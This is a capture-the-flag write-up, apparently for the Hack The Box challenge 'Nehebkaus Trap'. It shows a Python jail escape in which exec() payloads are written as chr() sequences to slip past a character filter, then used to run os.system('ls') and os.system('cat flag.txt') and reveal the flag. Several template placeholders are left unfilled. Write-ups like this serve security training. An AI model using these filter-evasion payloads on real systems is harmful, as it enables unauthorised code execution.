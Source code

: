# Challenge Name: Nehebkaus Trap

**Category:** Misc  
**Points:** [Point value]  
**Author:** [Your name]  
**Team:** [Your team name]  
**Completion Date:** [Date of comple7tion]

## Introduction

In search of the ancient relic, you go looking for the Pharaoh's tomb inside the pyramids. A giant granite block falls and blocks your exit, and the walls start closing in! You are trapped. Can you make it out alive and continue your quest?


## Tools Used

- telnet
- [Tool 2]
- [Tool 3]

## Initial Analysis

__import__('os').system('ls')
__import__('os').

## Detailed Methodology

### Step 1: Identified vulnerability
I can run certain python functions. Here I am using exec function because it will allow me to execute arbitrary code. Because the site used a character filter to block specific characters, i had to write the command in exec in ascii.
To identify that I can indeed execute these commands I used exec(time.sleep(5))

```exec(chr(116)+chr(105)+chr(109)+chr(101)+chr(46)+chr(115)+chr(108)+chr(101)+chr(101)+chr(112)+chr(40)+chr(53)+chr(41))```
### Step 2: Recon
Now using this vulnerability I try to find where the flag is located using ls.
```__import__('os').system('ls')```

```exec(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(108)+chr(115)+chr(39)+chr(41))```


### Step 3: Flag

Next I run cat flag.txt to read the flag 
```__import__('os').system('cat flag.txt')```

```exec(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41))```

## Flag Capture

Step 1, 2, 3

<details>
<summary>Click to reveal the flag</summary>
HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}                                             
